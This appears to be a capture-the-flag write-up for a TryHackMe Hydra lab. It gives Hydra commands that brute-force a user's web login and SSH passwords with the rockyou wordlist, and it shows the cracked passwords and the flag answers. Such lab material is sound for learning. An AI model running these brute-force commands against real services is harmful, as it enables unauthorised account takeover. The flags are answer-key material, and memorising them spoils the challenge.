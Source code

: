 # Hydra
Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Taks

### Use Hydra to bruteforce molly's web password. What is flag 1?

``` html
	<form class="form-signin" action="/login" method="post">
      <a href='/'><img class="mb-4" style='width: 200px;' src="/img/herc.gif" alt=""></a>
      <h1 class="h3 mb-3 font-weight-normal">Login</h1>
      
      <label for="inputEmail" class="sr-only">Username</label>
      <input type="text" name="username" class="form-control" placeholder="Username" required autofocus>
      <label for="inputPassword" class="sr-only">Password</label>
      <input type="password" name="password" class="form-control" placeholder="Password" required>
      <button class="btn btn-lg btn-primary btn-block" type="submit">Login</button>
      <p class="mt-5 mb-3 text-muted">&copy; HydraSite 2012 - 2020</p>
    </form>
```


hydra -l molly -P rockyou.txt 10.10.39.27 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V


[80][http-post-form] host: 10.10.39.27   login: molly   password: sunshine

1 of 1 target successfully completed, 1 valid password found


THM{2673a7dd116de68e85c48ec0b1f2612e}

### Use Hydra to bruteforce molly's SSH password. What is flag 2?

hydra -l molly -P rockyou.txt 10.10.39.27 -t 4 ssh -v


linux@ubuntu:~/Documents/wordlists$ hydra -l molly -P rockyou.txt 10.10.39.27 -t                                                4 ssh -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret                                                service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-01 21:01:                                               13
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14                                               344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.39.27:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://molly@10.10.39.2                                               7:22
[INFO] Successful, password authentication is supported by ssh://10.10.39.27:22
[22][ssh] host: 10.10.39.27   login: molly   password: butterfly
[STATUS] attack finished for 10.10.39.27 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found


molly@ip-10-10-39-27:~$ cat flag2.txt

THM{c8eeb0468febbadea859baeb33b2541b}